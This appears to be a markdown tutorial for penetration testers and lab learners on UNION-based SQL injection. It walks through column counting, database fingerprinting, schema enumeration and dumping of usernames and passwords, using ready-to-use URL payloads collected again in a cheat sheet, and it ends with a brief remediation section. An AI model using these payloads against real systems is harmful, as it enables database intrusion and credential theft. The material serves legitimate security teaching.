

# 🗺️ Complete Real-World SQL Injection Methodology & Workflow

This document outlines the standard end-to-end workflow for discovering, enumerating, and exploiting SQL injection (SQLi) vulnerabilities during real-world penetration testing and Web Security Academy labs.

---

## 📋 Exploitation Workflow Overview



---

## 🛠️ Step-by-Step Methodology

### Step 1: Determine the Number of Columns
Use `ORDER BY` to find the number of columns returned by the query:

```http
/filter?category=Gifts'+ORDER+BY+1--  ✅
/filter?category=Gifts'+ORDER+BY+2--  ✅
/filter?category=Gifts'+ORDER+BY+3--  ✅
/filter?category=Gifts'+ORDER+BY+4--  ❌ (Triggers Internal Server Error)
```

> [!NOTE]
> Receiving an error at `ORDER BY 4` confirms that the backend query selects exactly **3 columns**.

---

### Step 2: Identify Text-Compatible Columns
Test each column position using `UNION SELECT` to find which columns accept string/text data:

```http
/filter?category=Gifts'+UNION+SELECT+'a',NULL,NULL--  ❌ (Column 1 is not text)
/filter?category=Gifts'+UNION+SELECT+NULL,'a',NULL--  ✅ (Column 2 accepts text)
/filter?category=Gifts'+UNION+SELECT+NULL,NULL,'a'--  ❌ (Column 3 is not text)
```

> [!TIP]
> In this scenario, only **Column 2** is compatible with string data types.

---

### Step 3: Fingerprint Database Name & Version
Query database version functions to identify the underlying RDBMS:

```http
/filter?category=Gifts'+UNION+SELECT+NULL,version(),NULL--
```

#### Expected Server Responses:
- **PostgreSQL**: `PostgreSQL 12.3 (Ubuntu 12.3-1.pgdg19.04+1)`
- **MySQL / MariaDB**: `8.0.27-MySQL` or `@@version`
- **Microsoft SQL Server**: `Microsoft SQL Server 2019 ...`

---

### Step 4: Enumerate Available Database Tables
Query the system catalog (`information_schema.tables`) to list all tables in the database:

```http
/filter?category=Gifts'+UNION+SELECT+NULL,table_name,NULL+FROM+information_schema.tables--
```

#### Example Output:
```text
users
products
orders
sessions
```

---

### Step 5: Enumerate Columns of the Target Table
Query `information_schema.columns` to discover column names for the target table (e.g., `users`):

```http
/filter?category=Gifts'+UNION+SELECT+NULL,column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
```

#### Example Output:
```text
username
password
email
role
```

---

### Step 6: Exfiltrate Sensitive Data
Extract credentials from the target table. If only one text column is available, concatenate fields with a delimiter (e.g., `'~'`) using PostgreSQL string concatenation (`||`):

```http
/filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--
```

#### Example Extracted Output:
```text
administrator~p4ssw0rd
carlos~letmein
wiener~peter
```

---

## 📌 Summary Cheat Sheet

| Step | Goal | Query / Technique | Example Payload |
|---|---|---|---|
| **1** | Column Count | `ORDER BY N` | `'+ORDER+BY+3--` |
| **2** | Text Columns | `UNION SELECT NULL, 'a', ...` | `'+UNION+SELECT+NULL,'a',NULL--` |
| **3** | DB Version | `version()` / `@@version` | `'+UNION+SELECT+NULL,version(),NULL--` |
| **4** | Table Names | `information_schema.tables` | `'+UNION+SELECT+NULL,table_name,NULL+FROM+information_schema.tables--` |
| **5** | Column Names | `information_schema.columns` | `'+UNION+SELECT+NULL,column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--` |
| **6** | Data Exfiltration | `UNION SELECT ... FROM target` | `'+UNION+SELECT+NULL,username\|\|'~'\|\|password,NULL+FROM+users--` |

---

## 🔒 Security Best Practices & Remediation

> [!IMPORTANT]
> 1. **Prepared Statements (Parameterized Queries)**: Always use parameterized queries to separate SQL code from user data.
>    ```php
>    $stmt = $pdo->prepare("SELECT * FROM products WHERE category = ?");
>    $stmt->execute([$category]);
>    ```
> 2. **Least Privilege Principle**: Ensure database accounts have minimal privileges required for application execution.
> 3. **Input Validation**: Use strict allowlists for parameter inputs.